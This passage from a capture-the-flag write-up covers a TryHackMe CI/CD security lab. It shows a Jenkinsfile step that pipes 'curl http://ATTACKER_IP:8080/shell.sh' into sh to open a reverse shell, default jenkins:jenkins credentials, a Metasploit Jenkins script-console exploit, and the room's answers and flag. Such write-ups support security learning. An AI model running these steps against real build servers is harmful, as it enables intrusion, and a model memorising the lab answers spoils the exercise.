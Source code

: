 Finally, go to gitlab and add the following to the jenkinsfile. This will reach out the http server, download the shell.sh file and run it. This will then create a reverse shell and connect to our listener.  
```
pipeline { 
	agent any stages 
	{ stage('build') 
		{ steps 
			{ sh ''' 
				curl http://ATTACKER_IP:8080/shell.sh | sh 
				''' 
				} 
			} 
		} 
	}
```
With an luck we should see this in our listener
```
Connection received on jenkins.tryhackme.loc 55994 
/bin/sh: 0: can't access tty; job control turned off 
$ whoami 
ubuntu
```
Now just follow the steps in the mother:
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227235000.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227235019.png]]
We have the flag and have completed the task.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250304210111.png]]
```
secure registry
secret management
dependency confusion
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```
## Task 7: Securing the Build Server

Navigate to `http://jenkins.tryhackme.loc:8080` and log in with the default credentials `jenkins:jenkins`
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227235326.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227235403.png]]
This is good, we know some credentials, and now we can use the `msfconsole` to exploit those and get a shell. Let's start by running the `use exploit/multi/http/jenkins_script_console` to select the right exploit and see what we can do with it
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234214.png]]
Now let's configure it to work for the `jenkins` machine
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234415.png]]
Now that we have a shell let's go back to mother and see what we need to do to get the flag
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234813.png]]
Simply follow the steps that mother has for us...
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234719.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234648.png]]
Perfect our file is set up and all we have to do is tell the mother to verify that we have complete the task to get our flag: 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227234845.png]]
We have the flag let's move on.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250304210446.png]]
```
```